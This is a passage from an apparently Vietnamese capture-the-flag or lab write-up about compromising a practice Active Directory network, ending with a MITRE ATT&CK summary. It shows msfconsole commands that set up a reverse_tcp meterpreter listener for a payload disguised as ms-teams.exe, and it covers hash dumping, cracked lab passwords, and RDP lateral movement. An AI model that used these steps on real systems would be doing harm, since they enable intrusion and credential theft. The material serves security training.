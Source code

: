 Hình 27. Máy tryell có mở port 3389.

 
Hình 28. Máy darlene không mở port 3389.
Tiếp theo dump credentials của máy tryell, mục đích của việc này là để kiếm xem có các file password mà các user này để ở đâu đó trong máy không. Tại bước này, ta sẽ sử dụng Metasploit để tạo payload có tên là ms-teams.exe và lấy được Meterpreter của máy tryell.
 
Hình 29. Tạo payload sử dụng msfvenom.
Tiếp theo chạy msfconsole để tạo listener.
Msf6> use exploit/multi/handler
Msf6> set payload windows/meterpreter/reverse_tcp
Msf6> set LHOST 192.168.87.129
Msf6> set LPORT 1234
Msf6> exploit
Sau đó, vận chuyển payload ms-teams.exe vừa tạo thông qua shell của HavocClient.
 
Hình 30. Upload payload thành công.
 
Hình 31. Thực thi lệnh shell để agent chạy file ms-teams.exe, meterpreter xuất hiện.
 
Hình 32. Hashdump và kết quả trả về là các user cùng với các hash password.
Sử dụng công cụ hash decryptor online, ta tìm được các account như sau:
darlene:WinClient321
dxl:P@ssword
tryell:WinClient123
vagrant:vagrant
Chúng ta sẽ sử dụng các account này để rdp vào máy tryell. Sau khi tìm kiếm trong máy, ta phát hiện file trong account vagrant.
 
Hình 33. RDP vào máy tryell.
Và máy AD có các thông tin sau:
- IP: 10.10.10.3
- Username: nonocorp\mrrobot
- Password: P@ssword
Ta thử sử dụng credential này bằng rdp.
 
Hình 34. Đăng nhập thành công.
 
		Hình 35. Pwn thành công máy root.
## **3. Tổng kết**
Bảng MITRE ATT&CK:
Tên kĩ thuật	ID	Phương thức
Reconnaissance	T1595.003	Active Scanning – Wordlist Scanning
Initial Access	T1659	Content Injection
	T1078	Valid Account
Lateral Movement	T1021.001	Remote Service – Remote Desktop Protocol
	T1534	Internal Spearphishing
	T1570	Lateral Tools Transfer
Command and Control	T1659	Content Injection
Exfiltration	T1041	Exfiltration Over C2 Channel

Tài liệu tham khảo:
[1] https://github.com/Ashifcoder/exposelab
[2] https://attack.mitre.org/matrices/enterprise/
[3] https://github.com/HavocFramework/Havoc
[4] https://blog.viettelcybersecurity.com/canh-bao-chien-dich-tan-cong-cua-nhom-apt-darkpink-nham-den-vao-nuoc-dong-nam-a/
